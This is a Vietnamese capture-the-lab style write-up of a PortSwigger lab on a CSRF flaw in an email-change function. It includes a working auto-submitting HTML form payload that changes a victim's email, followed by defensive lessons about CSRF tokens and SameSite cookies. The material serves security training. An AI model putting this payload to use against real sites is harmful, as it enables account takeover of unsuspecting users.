



# Write-up: CSRF vulnerability with no defenses

### Tổng quan
Khai thác lỗ hổng Cross-Site Request Forgery (CSRF) trong chức năng thay đổi email của ứng dụng, nơi không có bất kỳ cơ chế bảo vệ CSRF nào. Yêu cầu POST `/my-account/change-email` không yêu cầu token CSRF, và cookie phiên không có thuộc tính `SameSite`, cho phép gửi yêu cầu giả mạo từ một trang web độc hại. Sử dụng payload HTML trong Exploit Server để gửi form POST giả mạo, thay đổi email của nạn nhân và hoàn thành lab.

### Mục tiêu
- Khai thác lỗ hổng CSRF bằng cách gửi yêu cầu POST giả mạo đến `/my-account/change-email` mà không cần token CSRF, tận dụng việc thiếu cơ chế bảo vệ, thay đổi email của nạn nhân và hoàn thành lab.

### Công cụ sử dụng
- Burp Suite Pro
- Firefox Browser

### Quy trình khai thác
1. **Thu thập thông tin (Reconnaissance)**
- Đăng nhập bằng tài khoản `wiener`:`peter` và thay đổi email thành `1111@gmail.com` tại `/my-account/change-email`:
    

- Quan sát:
    - Yêu cầu POST không chứa tham số `csrf`, cho thấy ứng dụng không sử dụng token CSRF.
    - Cookie session không có thuộc tính `SameSite`, cho phép gửi trong các yêu cầu cross-site:

2. **Khai thác (Exploitation)**
- Sử dụng công cụ PoC của Burp Suite Professional để tạo payload CSRF gửi yêu cầu POST:
    ```xml
    <html>
      <body>
        <form action="https://0a4b00a003daa0f7809c800600fe0094.web-security-academy.net/my-account/change-email" method="POST">
          <input type="hidden" name="email" value="2222@gmail.com" />
          <input type="submit" value="Submit request" />
        </form>
        <script>
          history.pushState('', '', '/');
          document.forms[0].submit();
        </script>
      </body>
    </html>
    ```
    
- **Ý tưởng payload**:
    - Form POST gửi tham số `email=2222@gmail.com` đến `/my-account/change-email`.
    - Script `history.pushState('', '', '/')` thay đổi URL trình duyệt để tránh hiển thị URL đáng ngờ.
    - Script `document.forms[0].submit()` tự động gửi form, thực hiện yêu cầu POST giả mạo.
    - Cookie `session` của nạn nhân được gửi kèm do thiếu `SameSite`, và yêu cầu được xử lý vì không cần token CSRF.

- Gửi payload đến nạn nhân qua chức năng "Deliver exploit to victim" của Exploit Server:
    - **Kết quả**: Khi nạn nhân truy cập trang Exploit Server, form gửi yêu cầu POST, thay đổi email thành `2222@gmail.com` và hoàn thành lab.
      

### Bài học rút ra
- Hiểu cách khai thác lỗ hổng CSRF bằng cách gửi yêu cầu POST giả mạo đến `/my-account/change-email` mà không cần token CSRF, tận dụng việc thiếu hoàn toàn cơ chế bảo vệ CSRF.
- Nhận thức tầm quan trọng của việc triển khai CSRF token ngẫu nhiên và duy nhất, áp dụng kiểm tra token cho mọi yêu cầu nhạy cảm, cấu hình `SameSite=Strict` hoặc `Lax` cho cookie để ngăn chặn các cuộc tấn công CSRF.

### Tài liệu tham khảo
- PortSwigger: Cross-Site Scripting (XSS)

### Kết luận
Lab này cung cấp kinh nghiệm thực tiễn trong việc khai thác CSRF trong môi trường không có cơ chế bảo vệ, nhấn mạnh tầm quan trọng của việc triển khai CSRF token, kiểm tra token cho mọi yêu cầu nhạy cảm, và cấu hình `SameSite` hợp lý để bảo vệ ứng dụng. Xem portfolio đầy đủ tại https://github.com/Furu2805/Lab_PortSwigger.

*Viết bởi Toàn Lương, Tháng 8/2025.*